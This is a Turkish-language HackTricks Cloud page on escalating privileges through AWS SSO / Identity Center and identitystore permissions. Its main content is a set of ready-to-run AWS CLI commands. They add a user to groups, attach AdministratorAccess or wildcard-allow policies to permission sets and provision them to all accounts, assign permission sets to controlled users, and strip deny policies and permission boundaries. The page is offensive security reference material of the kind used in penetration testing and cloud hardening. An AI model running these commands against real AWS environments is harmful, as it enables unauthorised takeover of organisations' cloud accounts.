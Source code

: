 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**Varsayılan** olarak, yalnızca **Yönetim Hesabı**'ndan izinleri olan **kullanıcılar**, **IAM Identity Center**'a erişebilecek ve **kontrol edebilecektir**.\
Diğer hesaplardan kullanıcılar, yalnızca hesap **Delegated Adminstrator** ise bunu yapabilir.\
[Daha fazla bilgi için belgeleri kontrol edin.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Şifreyi Sıfırla~~

Bu tür durumlarda ayrıcalıkları artırmanın kolay bir yolu, kullanıcıların şifrelerini sıfırlamalarına izin veren bir izne sahip olmaktır. Ne yazık ki, kullanıcının şifresini sıfırlamak için yalnızca kullanıcıya bir e-posta göndermek mümkündür, bu nedenle kullanıcının e-posta erişimine ihtiyacınız olacaktır.

### `identitystore:CreateGroupMembership`

Bu izinle, bir kullanıcıyı bir gruba eklemek mümkündür, böylece grup tarafından sahip olunan tüm izinleri miras alır.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% hint style="warning" %}
Bu izinleri kötüye kullanmak için, etkilenecek **tüm hesaplar içinde bulunan bir müşteri yönetimli politikanın adını** bilmeniz gerekir.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya bir hesap için bir İzin Seti verebilir.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Kullanıcıya atanmış belirli bir rol adı için STS kısa vadeli kimlik bilgilerini döndürür.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ancak, nasıl alacağım konusunda emin olmadığım bir erişim belirtecine ihtiyacınız var (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir AWS yönetilen politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı ayırarak (reddetme politikası)** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir Müşteri yönetimli politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı (reddetme politikası) ayırarak** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden bir satır içi politikadan izinleri kaldırma işlemi gerçekleştirebilir. **Bir satır içi politikayı (reddetme politikası) ayırarak daha fazla ayrıcalık vermek mümkündür.**

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden İzin Sınırını kaldırabilir. İzin Sınırından verilen İzin Seti üzerindeki kısıtlamaları kaldırarak **daha fazla ayrıcalık vermek mümkündür**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
